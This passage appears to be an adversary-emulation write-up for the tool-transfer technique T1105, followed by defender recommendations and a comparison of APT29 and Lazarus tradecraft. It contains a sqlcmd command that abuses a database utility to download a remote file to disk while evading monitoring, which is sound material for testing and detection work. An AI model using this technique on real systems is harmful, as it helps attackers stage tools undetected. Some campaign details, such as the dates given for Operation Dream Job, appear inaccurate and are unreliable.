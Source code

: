 **Command Explanation:**
```powershell
sqlcmd -i https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105.zip -o C:\T1105.zip
```
- **sqlcmd**: Command-line utility for SQL Server
- **-i**: Normally used to specify an input script file
- **URL**: Abused to point to a remote file instead of local
- **-o**: Redirects output to a file instead of console

This demonstrates APT29's sophisticated tradecraft in abusing unexpected legitimate tools, often bypassing security controls that don't monitor database utilities for network activity.

#### Dependencies: Run with `powershell`!
##### Description: sqlcmd must be available
##### Check Prereq Commands:
```powershell
if (Get-Command sqlcmd -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

## Defender Recommendations

Based on these tests, defenders should:

1. **Monitor for unusual process relationships** - certutil, BITSAdmin, or sqlcmd making network connections
2. **Implement application control** to restrict unnecessary utilities from non-admin users
3. **Monitor PowerShell for download cradles** - particularly WebClient and DownloadString usage
4. **Establish network baselines** to detect unusual outbound connections from trusted processes
5. **Use behavioral detection** rather than just signature-based approaches for these living-off-the-land techniques

## Correlation with APT29 & Lazarus

**APT29 Focus:**
- Living-off-the-land techniques (certutil, sqlcmd)
- Multiple PowerShell variants
- Used for stealthy tool transfer during espionage operations

**Lazarus Group Focus:**
- BITSAdmin for persistence
- PowerShell download cradles
- Cross-platform tools (curl on Windows and Linux)
- Used for initial payload delivery and lateral movement

**Overlap:**
- Both groups use BITSAdmin and PowerShell
- Both employ multiple redundant methods for tool transfer
- Both leverage legitimate system utilities to evade detection

## Campaign References
1. **APT29 SolarWinds Campaign** (2020): Used certutil, PowerShell, and BITSAdmin for tool transfer
2. **Lazarus Operation Dream Job** (2016-2017): Used BITSAdmin and PowerShell for malware downloads
3. **APT29 COVID-19 Vaccine Targeting** (2020): Used multiple download methods for tooling
4. **Lazarus Linux Targeting** (2018-2021): Used curl and wget on Linux systems
